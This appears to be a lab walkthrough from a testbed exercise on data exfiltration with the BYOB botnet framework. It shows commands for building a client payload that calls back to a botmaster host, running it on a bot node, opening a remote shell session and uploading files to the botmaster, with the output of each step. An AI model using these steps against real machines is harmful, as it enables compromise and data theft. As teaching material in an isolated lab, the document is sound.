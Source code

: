 ## Exfiltration Attack
The data is exfiltrated from bot nodes (`b1` in our case) to botmaster (`botmaster` in our case).

### Connection with client

We will use the `botmaster` node to generate a client. The client will use a basic module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 exfiltrate
```
The output should look like this:

```shell


88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[>] Modules
        Adding modules...  -[-] can't add module: 'exfiltrate' (does not exist)
(4 modules added to client)

[>] Imports
        Adding imports...-(32 imports from 4 modules)

[>] Payload
        Uploading payload...  -(hosting payload at: http://botmaster.infra:1338/clients/payloads/jIJ.py)

[>] Stager
        Uploading stager... -(hosting stager at: http://botmaster.infra:1338/clients/stagers/jIJ.py)

[>] Dropper
        Writing dropper...  (355 bytes written to /modules/clients/droppers/byob_jIJ.py)
        Compiling executable...
91 INFO: PyInstaller: 6.4.0, contrib hooks: 2024.1
91 INFO: Python: 3.9.2
.
.
.
19652 INFO: Appending PKG archive to custom ELF section in EXE
19714 INFO: Building EXE from EXE-00.toc completed successfully.
(22,541,192 bytes saved to file: /opt/byob/byob.git/dist/jIJ)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/jIJ b1.infra:
```

Lastly, startup the server
```shell
python3 -u server.py
```
The server should start and should start a prompt as follows:

```shell
88                                  88
88                                  88
88                                  88
88,dPPYba,  8b       d8  ,adPPYba,  88,dPPYba,
88P'    "8a `8b     d8' a8"     "8a 88P'    "8a
88       d8  `8b   d8'  8b       d8 88       d8
88b,   ,a8"   `8b,d8'   "8a,   ,a8" 88b,   ,a8"
8Y"Ybbd8"'      Y88'     `"YbbdP"'  8Y"Ybbd8"'
                d8'
               d8'


[?]  Hint: show usage information with the 'help' command

[rishitsaiya @ /opt/byob/byob]>
```

Parallely, SSH to the b1 node from your XDC through different terminal
```shell
ssh b1
```
Execute the payload from here
```shell
./jIJ
```

At this point, the server should display a message like:
```shell
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

Connect with the bot node using
```shell
shell 0
```
You can verify the socket connection by typing `ls` at prompt in server to check.

#### Test Files Creation
For demo purposes I have created `test.txt`, `test_dir/` on `b1` node.

```shell
rishitsaiya@b1:~$ ls
jIJ test_dir test.txt
rishitsaiya@b1:~$ cd test_dir/
rishitsaiya@b1:~/test_dir$ ls
test.txt
rishitsaiya@b1:~/test_dir$ cat test.txt 
This is a test file.
```

#### Exfiltrate from b1 to botmaster
On botmaster node where the server is running, type the command:

```shell
[ 0 @ /home/rishitsaiya ]>upload test.txt

Upload complete

[ 0 @ /home/rishitsaiya ]>upload test_dir

Upload complete
```

It should look like this.

#### Access Exfiltrated data at botmaster
At the botmaster node, check the directory called `output`. There should be files with encoded names in `output` directory.

```shell
rishitsaiya@botmaster:/opt/byob/byob$ cd output/
rishitsaiya@botmaster:/opt/byob/byob/output$ ls
8ky..txt  rha..zip
rishitsaiya@botmaster:/opt/byob/byob/output$ cat 8ky..txt 
This is a test file.
rishitsaiya@botmaster:/opt/byob/byob/output$ unzip rha..zip 
Archive:  rha..zip
 extracting: test_dir/test.txt       
rishitsaiya@botmaster:/opt/byob/byob/output$ ls
8ky..txt  rha..zip  test_dir
rishitsaiya@botmaster:/opt/byob/byob/output$ cd test_dir/
rishitsaiya@botmaster:/opt/byob/byob/output/test_dir$ cat test.txt 
This is a test file.
```

The file `test.txt` becomes `8ky..txt` when exfiltrated. There can be other names too, but the content of the file and file formats remains uncorrupted. The directory `test_dir` when exfiltrated from the `b1` to `botmaster` is programmed to get zipped and exfiltrated and hence it becomes `rha..zip`.
